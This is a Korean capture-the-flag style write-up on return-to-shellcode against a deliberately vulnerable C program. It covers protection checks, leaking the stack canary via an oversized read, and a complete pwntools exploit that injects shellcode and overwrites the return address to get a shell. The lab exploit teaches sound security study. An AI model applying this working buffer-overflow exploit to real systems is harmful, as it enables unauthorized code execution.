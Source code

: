 ## 📍Return to Shellcode

### 소스코드

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```


### 분석
#### 보호기법 탐지

적용된 바이너리 보호기법에 따라 익스플로잇 설계가 달라지므로, 분석 전에 먼저 어떤 보호기법이 작용되었는지 파악하는 것이 좋다.

pwntools와 함께 설치되는 **checksec** 툴을 사용한다.

`$ checksec ./r2s`

![](Attachments/{8DB0DD9C-D126-49C6-B4CB-65CEA4F4E022}.png)

카나리가 적용되어 있다.

#### 취약점 탐색

##### buf의 주소
문제에서 `buf`의 주소 및 `rbp`와 `buf` 사이의 주소 차이를 알려주고 있다.
##### 스택 버퍼 오버플로우
스택 버퍼인 `buf`에 총 2번의 입력을 받는다.
`read` 함수에서 주어진 버퍼보다 더 큰 입력을 받을 수 있고, `gets` 함수는 입력 크기를 제한하지 않으므로 안전하지 않은 함수이다.

### 익스플로잇 시나리오
#### 카나리 우회

두 번째 입력(`gets`)으로 반환 주소를 덮을 수 있지만 카나리가 조작되면 `__stack_chk_fail` 함수에 의해 프로그램이 강제 종료된다.
![](Attachments/{DF26A06C-04F4-455A-A96D-7D790162A035}.png)

첫 번째 입력을 살펴보자:
```c
  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);
```
- 스택 버퍼에 최대 100바이트의 입력을 받는다.
- 입력을 받고 바로 직후에 `buf`의 내용을 문자열로 출력한다.
- `buf`에 적절한 오버플로우를 발생시켜서 카나리 값을 구하고, 구한 카나리 값을 두 번째 입력에 사용한다.

#### 셸 획득

카나리를 구하고 나면, 두 번째 입력으로 반환 주소를 덮을 수 있다.
이때, 바이너리에 셸을 획득하는 코드가 없으므로 직접 셸을 획득하는 코드를 주입하고 해당 코드로 실행 흐름을 옮겨야 한다.

`buf`의 주소는 프로그램이 출력해주므로 주소를 알고 있는 `buf`에 셸 코드를 주입하고 해당 주소로 실행 흐름을 옮겨 셸을 획득한다.

### 익스플로잇

#### 스택 프레임 정보 수집

```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Adress of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp -8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```

#### 카나리 릭

스택 프레임에 대한 정보를 수집했으므로 이를 활용해 카나리를 구해야 한다.
`buf`와 카나리 사이를 임의의 값으로 채우면, 프로그램에서 `buf`를 출력할 때 카나리가 같이 출력된다.

![](Attachments/{7DB10F8C-6142-4270-ABC3-813E0F263BE3}.png)

```python
# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)
```

#### 익스플로잇

![](Attachments/{561167F2-0E66-4661-ACF1-E015D440FDD0}.png)

카나리를 구했으므로 `buf`에 셸코드를 주입하고 카나리를 구한 값으로 덮은 뒤 RET(반환 주소)를 `buf`로 덮으면 셸코드를 진행시킬 수 있다.

```python
# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)

# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```
